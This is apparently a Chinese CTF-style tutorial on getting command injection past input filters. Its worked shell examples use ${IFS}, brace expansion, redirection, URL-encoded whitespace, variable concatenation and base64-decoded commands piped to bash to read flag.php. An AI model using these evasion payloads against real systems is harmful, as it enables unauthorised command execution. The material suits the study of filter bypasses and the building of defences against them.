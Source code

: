 1、绕过过滤字符
--------

### 1.1 空格绕过

<1>`${IFS}`，Linux 下有一个特殊的环境变量叫做 IFS，叫做内部字段分隔符（internal field separator）。IFS 环境变量定义了 bash shell 用户字段分隔符的一系列字符。默认情况下，bash shell 会将下面的字符当做字段分隔符：空格、制表符、换行符。

<2>`${IFS}$9`，#`$9`可改成`$`加其他数字。

<3>`{cat,flag.php}`，用`,`实现了空格；指令中的`{}`通配符，shell 会先把`{}`的内容按照解释方式翻译成一个或多个参数，再执行该含有多参数的指令。在 Linux bash 中可以使用`{OS_COMMAND,ARGUMENT}`来执行系统命令，如`{mv,文件1，文件2}`。

<4>`<`，输入重定向，将一个文件的内容作为命令的输入。

<5>`<>`，重定向符

<6>`%20`，URL 传递

<7>`%09`，URL 传递

```
[root@localhost home]#cat${IFS}flag.php

[root@localhost home]# cat${IFS}$9flag.php

[root@localhost home]# {cat,flag.php}

[root@localhost home]# cat<flag.php

[root@localhost home]# cat<>flag.php
```

### 1.2 黑名单绕过

### 1.2.1 拼接变量

黑名单中有 flag，通过拼接变量绕过

```
[root@localhost home]# a=g;cat fla$a.php
[root@localhost home]# a=fl;b=ag;cat $a$b.php
```

### 1.2.2 编码绕过

<1>base64 编码

[https://the-x.cn/encodings/Base64.aspx](https://link.zhihu.com/?target=https%3A//the-x.cn/encodings/Base64.aspx)

```
cat flag.php => Y2F0IGZsYWcucGhw
  
[root@localhost home]# `echo "Y2F0IGZsYWcucGhw"|base64 -d`

[root@localhost home]# $(echo "Y2F0IGZsYWcucGhw"|base64 -d)

[root@localhost home]# echo "Y2F0IGZsYWcucGhw"|base64 -d|bash

[root@localhost home]# echo "Y2F0IGZsYWcucGhw"|base64 -d|sh
```
